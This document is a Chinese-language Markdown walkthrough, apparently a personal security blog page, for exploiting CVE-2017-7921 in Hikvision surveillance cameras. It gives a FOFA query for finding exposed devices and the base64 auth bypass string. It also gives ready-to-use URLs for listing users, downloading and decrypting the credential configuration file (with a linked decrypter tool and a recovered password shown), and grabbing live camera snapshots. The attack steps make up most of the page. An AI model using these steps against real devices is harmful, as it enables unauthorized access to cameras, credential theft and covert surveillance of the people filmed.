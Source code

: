 ```yaml
---
layout: about
category: about
Researchname: Hikvision-ConfigurationFiles-decrypter
author: Bin4xin
permalink: /about/Hikvision-ConfigurationFiles-decrypter/
---
```


> *fofa： app="HIKVISION-视频监控"*
>
> *HIKVISION*监控设备管理后台存在未授权，通过构造url可绕过登录查看监控，检索所有用户和配置文件下载。

构造url主要是通过如下的`auth`参数构造生成base64加密字段，如下所示：

```bash
➜  echo admin:11 |base64
YWRtaW46MTEK
```

<h2><li>检索所有用户及其角色的列表</li></h2>
`http://{ip.addr}:{ip.port}/Security/users?auth=YWRtaW46MTEK`

返回xml信息：

```xml
<UserList version="1.0">
<User version="1.0">
<id>1</id>
<userName>admin</userName>
<priority>high</priority>
<ipAddress>0.0.0.0</ipAddress>
<macAddress>00:00:00:00:00:00</macAddress>
<userLevel>Administrator</userLevel>
</User>
</UserList>
```

---

<h2><li>下载账号密码配置文件</li> </h2>


`http://{ip.addr}:{ip.port}/System/configurationFile?auth=YWRtaW46MTEK`

```bash
➜  file configurationFile
configurationFile: PGP Secret Key -
```

如上，我们配置文件下载完成后可以看到是PGP加密文件，所以我们需要对文件进行解密才可以找到账号密码的配置信息；文件解密出的账号密码就是监控设备后台管理的账号密码信息，我们得到信息直接登录即可。解密软件用法及链接如下：

### *# Usage:*

<div class="col-lg-7">
<img align="left" src="https://i.loli.net/2021/11/18/l5mtUa13gvqVHLF.png"/>
</div>

<div>

<h3> <em>Open [hikvision-decrypter.exe] on Windows platform:</em> </h3>

<li><code>Open Configuration File -> </code></li>

<li><code>Encrypted -> </code></li>

<li><code>Decrypt Data(Decrypting AES...) -> </code></li>

<li><code>(Successfully decrypted data) -> </code></li>

<li><code>Save Configuration File. </code></li>


</div>

### *# Find pass in decrypted data*

用 010-Editor程序打开decrypted data 文件. 文件内搜索admin字符串，如左图；

**Boom! Easy to find password! (admin:asdf1234)**

<span style="margin-left: 1em">* 我们通过[Usage]来获得的帐号密码登录即可，有机会会从代码角度分析一下为什么存在未授权访问</span>

### *#* 相关链接一览表

|Desc | Link |
| :----: | :----: |
---- | --- 
Download Hikvision exec |  [<i class="fa fa-link"></i> hikvision-decrypter.exe](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Hikvision%20Unauth/hikvision-decrypter.exe){:target="_blank"} and here is: [<i class="fa fa-github"></i> Repos](https://github.com/WormChickenWizard/hikvision-decrypter){:target="_blank"}
Download configurationFile Sample | [<i class="fa fa-link"></i> configurationFile](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Hikvision%20Unauth/configurationFile-fofa){:target="_blank"}
Download configurationFile decry-Sample	| [<i class="fa fa-link"></i> configurationFile-decry](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Hikvision%20Unauth/DE-configurationFile-fofa){:target="_blank"}

---

<h3><li>获取监控快照</li></h3>

`http://{ip.addr}:{ip.port}/onvif-http/snapshot?auth=YWRtaW46MTEK`

当前时间下监控的快照图片

![Hikvision-unauth-view.png](https://i.loli.net/2021/11/18/GPEeKkcqsAFRDYO.png)


## 参考

- [CVE-2017-7921海康威视摄像头管理后台未授权](https://www.freebuf.com/vuls/268245.html){:target="_blank"}
- [Hikvision Decrypter](https://github.com/WormChickenWizard/hikvision-decrypter){:target="_blank"}


以上。
